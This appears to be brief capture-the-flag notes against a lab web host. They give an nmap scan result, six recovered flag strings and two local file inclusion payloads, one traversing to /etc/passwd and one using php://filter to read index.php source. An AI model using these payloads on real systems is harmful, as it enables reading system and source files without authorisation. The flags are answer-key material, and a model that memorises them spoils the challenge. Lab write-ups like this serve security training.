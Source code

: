 **Nmap scan result**
```bash nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-17 21:54 GMT
Stats: 0:00:09 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 97.88% done; ETC: 21:54 (0:00:00 remaining)
Stats: 0:00:09 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 98.17% done; ETC: 21:54 (0:00:00 remaining)
Nmap scan report for 10.0.160.9
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
80/tcp    open     http    nginx 1.10.3
54045/tcp filtered unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=9/17%OT=80%CT=1%CU=33955%PV=Y%DS=2%DC=I%G=Y%TM=66E9
OS:FB5A%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=108%TI=Z%CI=RI%II=I%TS=A
OS:)SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=RI%II=I%TS=A)OPS(O1=M550ST11NW7%O2=M55
OS:0ST11NW7%O3=M550NNT11NW7%O4=M550ST11NW7%O5=M550ST11NW7%O6=M550ST11)WIN(W
OS:1=FB34%W2=FB34%W3=FB34%W4=FB34%W5=FB34%W6=FB34)ECN(R=Y%DF=N%T=40%W=FD5C%
OS:O=M550NNSNW7%CC=Y%Q=)T1(R=Y%DF=N%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=
OS:N)T4(R=Y%DF=Y%T=41%W=0%S=A%A=S%F=AR%O=%RD=0%Q=)T5(R=Y%DF=N%T=40%W=0%S=Z%
OS:A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=41%W=0%S=A%A=S%F=AR%O=%RD=0%Q=)T7(R=N
OS:)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%
OS:DFI=N%T=40%CD=S)
```

**Flag 1**
1. ETSCTF_FLAG_IN_SOURCE

**Flag 2**
ETSCTF_0e6e8bf3fc6b02cdcf22a5d7b71b466d

**Flag 3**
ETSCTF_ETCPASSWD_FLAG_HIDDEN_HOLA

**Flag 4**
ETSCTF_FLAG_IN_PHP_AFTER_LFI
**Flag 5**
ETSCTF_FLAG_IN_CONF18_FILE

**Flag 6**
ETSCTF_341a1eea621ae5dbd0467911860187bc #var/www/html/admin/ETSCTF.html



`LFI payloads`
10.0.160.9/?page=../../../../../../../../../../../../../../etc/passwd
http://lfi-tutorial.echocity-f.com/?page=php://filter/convert.base64-encode/resource=index.php


